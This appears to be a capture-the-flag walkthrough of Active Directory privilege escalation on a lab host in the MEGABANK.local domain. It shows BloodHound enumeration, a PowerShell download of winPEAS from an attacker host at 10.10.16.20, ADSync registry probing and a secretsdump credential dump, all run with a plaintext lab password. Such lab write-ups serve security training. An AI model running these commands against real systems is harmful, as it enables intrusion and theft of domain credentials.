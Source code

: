
It's time for Bloodhound and Winpeas

Bloodhound
```
bloodhound-python -d MEGABANK.local -u mhope -p '4n0therD4y@n0th3r$' -ns 10.10.10.172 -c all
```

![[Pasted image 20240504002952.png]]

Started the Neo4j console and Run bloodhound


```
IWR -Uri http://10.10.16.20:8080//winpeas/winPEASx64.exe -OutFile winPEASx64.exe
```
![[Pasted image 20240504003704.png]]

Systeminfo
![[Pasted image 20240504013037.png]]

```
USERDOMAIN: MEGABANK
USERDNSDOMAIN: MEGABANK.LOCAL
```

![[Pasted image 20240504014452.png]]

If you recall that we have seen this account user name starting with AAD_ is used for actual sync service.
https://docs.microsoft.com/en-us/azure/active-directory/hybrid/concept-adsync-service-account

![[Pasted image 20240505041831.png]]

![[Pasted image 20240505041255.png]]


AD Sync 
![[Pasted image 20240505041505.png]]
So we see a Microsoft Azure AD Sync Folder 

We can enumerate the service instance using the Registry.
```
Get-Item -Path HKLM:\SYSTEM\CurrentControlSet\Services\ADSync
```
![[Pasted image 20240505041916.png]]


```
Get-ItemProperty -Path "C:\Program Files\Microsoft Azure AD Sync\Bin\miiserver.exe" | Format-list -Property * -Force
```
![[Pasted image 20240505043207.png]]

First i tried running this to know if it working cuz the tools we are going to use will extract the password dump from the AD as it's using DPAPI

```
secretsdump.py MEGABANK.LOCAL/mhope:'4n0therD4y@n0th3r$'@10.10.10.172 -use-vss
```
![[Pasted image 20240505042603.png]]

https://github.com/dirkjanm/adconnectdump
https://blog.xpnsec.com/azuread-connect-for-redteam/
If i recall it correct we have also used another tool written by this fella. (i.e. ldapdomain dump)

